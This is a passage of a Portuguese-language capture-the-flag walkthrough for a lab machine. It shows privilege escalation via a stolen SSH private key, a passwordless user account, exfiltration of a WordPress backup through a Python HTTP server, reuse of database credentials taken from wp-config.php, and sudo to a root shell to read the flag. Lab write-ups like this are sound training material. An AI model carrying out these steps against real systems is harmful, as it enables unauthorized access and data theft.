-rwxr-xr-x 1 think think    2602 Jun 21  2023 id_rsa
-rwxr-xr-x 1 think think     572 Jun 21  2023 id_rsa.pub
diego@ip-10-10-151-222:/home/think/.ssh$

```

Agora posso logar como o usuário think no servidor ssh conforme demonstrado abaixo.

```bash
┌──(kali㉿kali)-[~/smol]
└─$ vim id_rsa
                                                                                                                                                                    
┌──(kali㉿kali)-[~/smol]
└─$ chmod 600 id_rsa                               
                                                                                                                                                                    
┌──(kali㉿kali)-[~/smol]
└─$ ssh think@10.10.151.222 -i id_rsa              
The authenticity of host '10.10.151.222 (10.10.151.222)' can't be established.
ED25519 key fingerprint is SHA256:oL6rchGlav+IRyAaoTKW9ZXdV1McZRVz4e35/6ywe70.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.151.222' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat 18 Oct 2025 02:45:34 PM UTC

  System load:  0.0               Processes:             130
  Usage of /:   69.0% of 9.75GB   Users logged in:       0
  Memory usage: 27%               IPv4 address for ens5: 10.10.151.222
  Swap usage:   0%

 * Ubuntu 20.04 LTS Focal Fossa has reached its end of standard support on 31 Ma
 
   For more details see:
   https://ubuntu.com/20-04

Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

37 additional security updates can be applied with ESM Infra.
Learn more about enabling ESM Infra service for Ubuntu 20.04 at
https://ubuntu.com/20-04


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Your Hardware Enablement Stack (HWE) is supported until April 2025.

think@ip-10-10-151-222:~$ 

```

Continuei procurando nos home diretórios dos demais usuários e achei um arquivo que parece um backup do wordpress dentro da home do gege.

```bash
think@ip-10-10-151-222:/home/gege$ ls -la
total 31532
drwxr-x--- 2 gege internal     4096 Aug 18  2023 .
drwxr-xr-x 8 root root         4096 Oct 18 13:06 ..
lrwxrwxrwx 1 root root            9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 gege gege          220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 gege gege         3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 gege gege          807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root            9 Aug 18  2023 .viminfo -> /dev/null
-rwxr-x--- 1 root gege     32266546 Aug 16  2023 wordpress.old.zip
think@ip-10-10-151-222:/home/gege$
```

Decidi tentar autenticar como gege para transferir o zip para a minha máquina.

```bash
think@ip-10-10-151-222:/home/gege$ su gege
gege@ip-10-10-151-222:~$
```

Acredito que gege não possuía senha (campo em branco em /etc/shadow).

Em seguida, transferi o backup para a minha máquina

```bash
gege@ip-10-10-151-222:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.23.176.32 - - [18/Oct/2025 15:48:44] "GET /wordpress.old.zip HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
gege@ip-10-10-151-222:~$
```

Agora, já posso descompactar o arquivo zip e, para senha, usei a senha encontrada do usuário gege anteriormente.

No wp-config.php do backup do wordpress, encontrei credenciais que aparentam ser do xavi.

```bash
/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );

```

Sendo assim, vou tentar alternar para o usuário xavi utilizando essa senha.

```bash
gege@ip-10-10-151-222:~$ su xavi
Password: 
xavi@ip-10-10-151-222:/home/gege$ 

```

E após verificação pude concluir que o usuário pode executar qualquer comando como root

```bash
xavi@ip-10-10-125-151:~$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on ip-10-10-125-151:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on ip-10-10-125-151:
    (ALL : ALL) ALL

```

Agora, vou spawnar um shell como root.

```bash
xavi@ip-10-10-125-151:~$ sudo /bin/bash
root@ip-10-10-125-151:/home/xavi$ 

```

E obter a flag do root

```bash
root@ip-10-10-125-151:~$ ls -la
total 52K
drwx------  7 root root 4.0K Jul 20 11:39 .
drwxr-xr-x 18 root root 4.0K Oct 18 16:07 ..
-rw-r--r--  1 root root 3.2K Jun 21  2023 .bashrc
drwx------  2 root root 4.0K Jun  2  2023 .cache
-rw-------  1 root root   35 Mar 29  2024 .lesshst
drwxr-xr-x  3 root root 4.0K Jun 21  2023 .local
lrwxrwxrwx  1 root root    9 Aug 18  2023 .mysql_history -> /dev/null
drwxr-xr-x  4 root root 4.0K Aug 16  2023 .phpbrew
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Aug 16  2023 root.txt
-rw-r--r--  1 root root   75 Aug 17  2023 .selected_editor
drwx------  3 root root 4.0K Jun 21  2023 snap
drwx------  2 root root 4.0K Jul 20 11:16 .ssh
-rw-rw-rw-  1 root root 1.5K Jul 20 11:39 .viminfo
root@ip-10-10-125-151:~$ cat root.txt 
bf89ea3ea01992353aef1f576214d4e4
root@ip-10-10-125-151:~$ 

```
